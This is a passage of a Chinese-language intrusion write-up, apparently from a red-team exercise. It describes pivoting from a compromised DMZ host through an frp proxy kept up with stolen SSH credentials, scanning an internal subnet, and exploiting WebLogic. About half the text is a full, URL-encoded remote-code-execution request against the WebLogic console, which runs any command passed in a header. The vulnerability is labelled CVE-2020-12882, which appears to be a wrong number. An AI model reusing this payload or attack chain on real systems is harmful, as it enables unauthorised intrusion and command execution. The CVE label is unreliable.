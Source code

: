 目前已经拿到了 DMZ 区的 3 个权限，准备搭个 frp 代理出来。因为拿到了 172.31.35.129 这台主机的 SSH 账号和密码，这样的话维权也比较方便，就在 172.31.35.129 上搭建了 frp 代理

![图片.png](assets/1698900845-0d6d5791c945631c719a5459a538296f.png)

本地连上 frp 代理后，同样使用 fscan 对 C 段进行扫描，然后快速打点：

![图片.png](assets/1698900845-1650294d258e2ac7691bea247beee580.png)

# 0x05 192.168.11.26 weblogic CVE-2020-12882 命令执行

发现 192.168.11.26 是 weblogic，然后打了一波 weblogic 命令执行 EXP，发现存在 CVE-2020-12882 漏洞

```php
GET /console/css/%252e%252e%252fconsolejndi.portal?test\_handle=com.tangosol.coherence.mvel2.sh.ShellSession(%27weblogic.work.ExecuteThread%20currentThread%20=%20(weblogic.work.ExecuteThread)Thread.currentThread();%20weblogic.work.WorkAdapter%20adapter%20=%20currentThread.getCurrentWork();%20java.lang.reflect.Field%20field%20=%20adapter.getClass().getDeclaredField(%22connectionHandler%22);field.setAccessible(true);Object%20obj%20=%20field.get(adapter);weblogic.servlet.internal.ServletRequestImpl%20req%20=%20(weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod(%22getServletRequest%22).invoke(obj);%20String%20cmd%20=%20req.getHeader(%22cmd%22);String\[\]%20cmds%20=%20System.getProperty(%22os.name%22).toLowerCase().contains(%22window%22)%20?%20new%20String\[\]{%22cmd.exe%22,%20%22/c%22,%20cmd}%20:%20new%20String\[\]{%22/bin/sh%22,%20%22-c%22,%20cmd};if(cmd%20!=%20null%20){%20String%20result%20=%20new%20java.util.Scanner(new%20java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter(%22\\\\A%22).next();%20weblogic.servlet.internal.ServletResponseImpl%20res%20=%20(weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod(%22getResponse%22).invoke(req);res.getServletOutputStream().writeStream(new%20weblogic.xml.util.StringInputStream(result));res.getServletOutputStream().flush();}%20currentThread.interrupt(); HTTP/1.1

Host: 192.168.11.26:7001

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,\*/\*;q=0.8

```